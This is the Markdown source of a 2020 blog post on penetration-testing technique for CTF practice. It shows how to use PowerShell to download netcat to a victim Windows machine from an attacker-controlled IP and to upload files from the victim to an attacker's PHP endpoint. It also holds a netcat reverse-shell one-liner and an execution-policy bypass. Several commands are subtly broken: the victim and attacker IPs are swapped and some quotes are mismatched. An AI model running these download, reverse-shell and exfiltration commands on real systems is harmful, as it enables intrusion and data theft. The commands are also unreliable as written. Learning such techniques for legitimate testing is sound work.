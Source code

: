 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Downloading And Exfiltrating"
author: nanobyte
date:   2020-08-28
description: PowerShell for Penetration Testing, and how to download files to a victim machine, and exfiltrate data from the victim machine
tags: PowerShell
---
```


This next installment in the Powershell For Penetration Testers looks into how an attacker can introduce files to a victim machine through a PowerShell download, as well as how to use PowerShell to upload files from a victim machine to your attacking box. I recently decided to continue on with this series to help other new comers into the field to learn as I learn. I recently used these skills on a recent Hack The Box machine, which if I remember to, will post the link to the writeup as a practical example.

<h1>Downloading Files with PowerShell</h1>

Using a PowerShell session, an attacker can quickly download files to a victim machine. There are hundreds of examples more intense then what I will show you, but here are my two methods and go-to's which I attempt whenever I am performing an attack. In the examples to follow, I will assume that I am attempting to download `nc.exe` to the victim machine, which I would then plan to use to call a reverse shell back to my attacking machine. I will assume that the victim machine I am attacking is a Windows based Operating System, and I am using Kali Linux as my attacking box. Luckily, PowerShell is installed on all Windows platforms, including Windows IoT Core (hint for the Hack The Box machine).

Please also assume that my Kali Linux has a HTTP server running (This can be Apache, Python's SimpleHTTPServer, whatever you prefer) and has an IP of 10.10.10.2, where the Windows machine is 10.10.10.1. 

<h2>Invoke-WebRequest</h2>

The first example is a quick one that can easily be remembered, using a PowerShell cmdlet:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

This command first calls PowerShell to run a command with the `-c` flag. This is shortened from the `-Command` flag. This also assumes that you are on the machine with a command prompt with remote code execution. Then, the command is actually executed, first making a directory to save our `nc.exe` binary to. The following command then uses the `Invoke-WebRequest` cmdlet to download our file from the web server, and saves it to the `C:\temp` directory.

We could further this command by then calling `& c:\temp\nc.exe -e cmd.exe 10.10.10.1 1337` to connect back to our reverse shell (but that is outside of this article) to further our attack as a one-liner.

<h2>System.Net.WebClient</h2>

However, I frequently find that this is not the preferred method in Hack The Box or other CTF's to download files to victims. This is from personal experience, where the above failes completely or a binary is not downloaded, or downloading slowly. This brings us to our next approach, using PowerShell's `System.Net.WebClient`:

{% highlight bash linenos %}
powershell -c "mkdir c:\temp & (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2/nc.exe','C:\temp\nc.exe')"
{% endhighlight %}

This is similar to the example above, creating the directory before downloading, only using a .NET class to download.

<h2>Remember -ExecutionPolicy Bypasss</h2>

Along with PowerShell, remembe that there are sometimes restrictions placed onto the PowerShell session you may be running. I already have an article describing how to beat these execution policies, found <a href="/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">here</a>. To make sure that you beat these restricted execution methods, quickly throw a `-exec bypass` before your download command:

{% highlight bash linenos %}
powershell -c "-exec bypass mkdir c:\temp & Invoke-WebRequest -URI http://10.10.10.2/nc.exe -OUTFILE c:\temp\nc.exe"
{% endhighlight %}

<h1>Exfiltrating Data</h1>

This is a method where you use a HTML server running on your Kali Linux attacking machine, where PowerShell can upload a file from a victim machine to your Kali. First, we will need to create a PHP page to process our upload request. This can be found here:

{% highlight bash linenos %}
<?php
$uploaddir = '/var/www/uploads';
$uploadfile = '$uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
{% endhighlight %}

Also, make sure that the upload directory exists in your Kali Linux. Once saved and created into our `/var/www/html` directory as `upload.php`, start and stop our local Apache processes:

{% highlight bash linenos %}
sudo service apache2 status
/etc/init.d/apache2 start
/etc/init.d/apache2 stop
{% endhighlight %}

And once running, from the victim box, call the PowerShell command to exfiltrate the data you require:

{% highlight bash linenos %}
powershell -c "(New-Object System.Net.WebClient).UploadFile('http://10.10.10.1/upload.php, 'file.txt')"
{% endhighlight %}

And check your upload directory for the file!

Thank you for reading, please keep coming back for more in this series as nanobyte learns and updates PowerShell For Penetration Testers!
